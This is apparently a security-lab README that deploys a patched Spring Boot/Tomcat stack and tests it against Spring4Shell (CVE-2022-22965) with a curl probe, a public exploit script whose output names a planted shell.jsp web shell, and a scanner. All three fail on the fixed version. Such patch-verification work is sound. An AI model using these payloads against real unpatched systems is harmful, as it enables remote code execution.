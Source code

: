 # Lab 3: Fixed Deployment

So far we have tried poc exploit on vulnerable versions lets try exploit on fixed version of spring boot, tomcat and JDK 

```js
Tomcat version: 8.5.78 (not vulnerable)
openJDK: 8 (not vulnerable)
Spring Boot: 2.6.6 (not vulnerable)
```

## How to deploy?

```bash
docker build . -t sp4s-tomcat8.5.78-jdk8-spb2.6.6 && docker run -p 8002:8080 sp4s-tomcat8.5.78-jdk8-spb2.6.6
```

You can access the application at http://localhost:8002/helloworld/greeting

## Test if application is vulnerable

### Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC

```bash
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8002/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Sun, 17 Apr 2022 20:43:46 GMT
Connection: close
Content-Length: 185

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Reznok's Hello World Spring Application</title>
</head>
<body>
    Hello World! Exploit me!
</body>
</html>
```

As suggested by poc author that application give 400 response if it is using vulnerable version since this version is not vulnerable
we get 200 OK response.

let's try to exploit it using another exploit poc


### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC

```bash
$ python exploit.py --url http://localhost:8002/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8002/shell.jsp?cmd=id
```

This poc tries to upload the shell and shows the response code and the shell location without verifying if the exploit actually
worked so if you go to the provided url you will get 404 Not Found error.


## POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8002/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8002/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8002/helloworld/greeting | PAYLOAD: class.module.classLoader[z2xxa8m]=z2xxa8m
[•] Target does not seem to be vulnerable.
[•] No affected targets were discovered.
```

